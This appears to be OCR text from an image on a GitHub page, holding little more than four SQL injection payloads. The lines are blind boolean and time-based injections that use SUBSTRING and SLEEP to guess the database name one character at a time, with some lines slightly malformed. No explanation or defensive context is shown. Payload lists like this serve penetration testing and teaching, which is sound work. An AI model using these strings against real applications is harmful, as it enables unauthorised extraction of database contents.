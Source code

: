 ' OR SUBSTRING(database(), 1, 1) = 'a' -- 
'; if substring(database(), 1, 1) = 'a' sleep()

'; IF (1=2) SLEEP(1);

' or (case when substring((select database() limit 0,1),1,1)='a' then sleep(1) else 1 end)=1 -- 